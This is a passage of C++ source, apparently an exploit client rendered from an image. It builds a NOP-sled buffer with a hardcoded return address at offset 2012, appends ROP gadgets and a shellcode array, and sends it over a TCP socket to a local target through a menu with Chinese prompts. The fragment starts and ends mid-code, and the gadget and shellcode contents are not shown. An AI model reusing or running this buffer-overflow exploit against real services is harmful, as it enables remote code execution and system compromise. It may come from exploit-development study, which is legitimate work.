 ```c++

    for (size_t i = 6; i < sizeof(szBuf); i++)
    {
        szBuf[i] = 0x90;
    }

    szBuf[2012] = 0x12;
    szBuf[2013] = 0x45;
    szBuf[2014] = 0xFA;
    szBuf[2015] = 0x7F;
    memcpy(&szBuf[2012], rop_gadgets, sizeof(rop_gadgets));
    memcpy(&szBuf[2012 + sizeof(rop_gadgets)], g_szShellCode, sizeof(g_szShellCode));

    send(sk, szBuf, sizeof(szBuf), 0);
}
void SendInputData(SOCKET sk) {

    char szSendBuff[32] = { 0 };
    scanf("%31s", szSendBuff);
    send(sk, szSendBuff, sizeof(szSendBuff), 0);
}

int SelectInput(SOCKET sk) {

    int nFlag = 0;
    while (true)
    {
        printf("请选择：\r\n0、清空控制台\r\n1、退出\r\n2、发送输入字符\r\n3、发送shellcode\r\n");

        scanf("%d", &nFlag);
        switch (nFlag)
        {
        case 0:
            system("cls");
            break;
        case 1:
            return 0;
        case 2:
            SendInputData(sk);
            return 1;
        case 3:
            SendShellCode(sk);
            return 1;
        default:
            break;
        }
    }
}

int main() {

    SOCKET sk = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

    if (sk == INVALID_SOCKET)
    {
        printf("socket error\r\n");
        sk = NULL;
        return -1;
    }
    //连接IP和端口
    char szIP[32] = "127.0.0.1";
    sockaddr_in si;
    si.sin_family = AF_INET;
```